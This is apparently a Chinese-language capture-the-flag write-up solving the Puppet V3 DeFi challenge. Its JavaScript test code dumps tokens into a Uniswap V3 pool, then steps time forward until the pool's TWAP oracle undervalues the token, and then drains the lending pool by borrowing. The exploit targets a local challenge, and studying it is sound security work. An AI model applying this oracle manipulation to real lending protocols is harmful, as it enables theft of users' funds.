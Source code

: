 我们还是先找到uniswap的Router为`0x68b3465833fb72A70ecDF485E0e4C7bD8665Fc45`。同时为了能够生成实例，安装依赖`npm install @uniswap/swap-router-contracts`

选用exactInputSingle函数进行交换（已经存在相关的池子）。进行砸盘，并通过轮询，找到合适的价格并入场。

`test/puppet-v3/puppet-v3.challenge.js`中攻击如下，在110s左右价格就达到了合适的入场点位。

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        console.log("before Swapping...");
        console.log("token : %s", await token.balanceOf(player.address));
        console.log("ETH : %s", await ethers.provider.getBalance(player.address));
        console.log("WETH : %s", await weth.balanceOf(player.address));

        const routerAddr = "0x68b3465833fb72A70ecDF485E0e4C7bD8665Fc45";
        const routerJson = require('@uniswap/swap-router-contracts/artifacts/contracts/SwapRouter02.sol/SwapRouter02.json');

        const router = new ethers.Contract(routerAddr, routerJson.abi, player);
        console.log("router created ... %s", router.address );

        await token.connect(player).approve(router.address,PLAYER_INITIAL_TOKEN_BALANCE);

        await router.connect(player).exactInputSingle(
            [
            token.address,
            weth.address,
            3000,
            player.address,
            PLAYER_INITIAL_TOKEN_BALANCE,
            0,
            0
            ]
        )

        console.log("before Swapping...");
        console.log("token : %s", await token.balanceOf(player.address));
        console.log("ETH : %s", await ethers.provider.getBalance(player.address));
        console.log("WETH : %s", await weth.balanceOf(player.address));
        const value = BigNumber.from(await weth.balanceOf(player.address));
        for (i = 1; i < 115; i++){
            time.increase(1);
            const needToDeposit = await lendingPool.callStatic.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
            console.log("after %s seconds",i);
            console.log(value);
            console.log(needToDeposit);
            if (value.gt(needToDeposit)){
                console.log("exit",i);
                break;
            }
        }
        time.increase(3);
        await weth.connect(player).approve(lendingPool.address,await weth.balanceOf(player.address));
        await lendingPool.connect(player).borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);

    });
```
